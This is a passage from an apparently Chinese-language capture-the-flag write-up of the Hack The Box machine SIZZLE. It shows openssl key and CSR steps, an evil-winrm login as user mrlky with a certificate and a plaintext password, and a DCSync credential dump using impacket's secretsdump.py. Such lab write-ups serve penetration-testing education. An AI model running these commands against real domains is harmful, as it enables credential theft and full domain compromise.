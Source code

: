 在我想到滥用 DCsync 之前，我需要在`mrlky.`的上下文中重复前面执行的步骤，以获得一个`.cer`文件和一个`.key`文件来连接到`PS Remoting`。从. p12 文件生成 `.key`文件:

```
openssl pkcs12 -in mrlky.p12 -nocerts -out mrlky.key
```

生成 CSR:

```
openssl req -newkey rsa:2048 -keyout mrlky.key -nodes -out mrlky.csr
```

我现在可以在 SIZZLE 上以`mrlky`的身份登录:

```
evil-winrm -u mrlky -i 10.10.10.103 -S -c mrlky.cer -k mrlky.key -p Football#7
```

![](img/ec26d8fa80eef6f21aa789343792c2f6.png)

检查`C:\Users`目录下的文件:

```
gci -path c:\users\ -recurse -depth 3
```

我现在可以访问`user.txt:`

![](img/10df161cafadd67720ae82fd35b6a172.png)

## DCSync:

知道机器上运行了一些安全控制，我决定只使用 impacket 的`secretsdump.py`,而不是在机器上使用 Mimikatz:

```
/opt/impacket/examples/secretsdump.py htb/mrlky@10.10.10.103
```

![](img/e9c9eca5948847f2865c5ceee7811a2d.png)
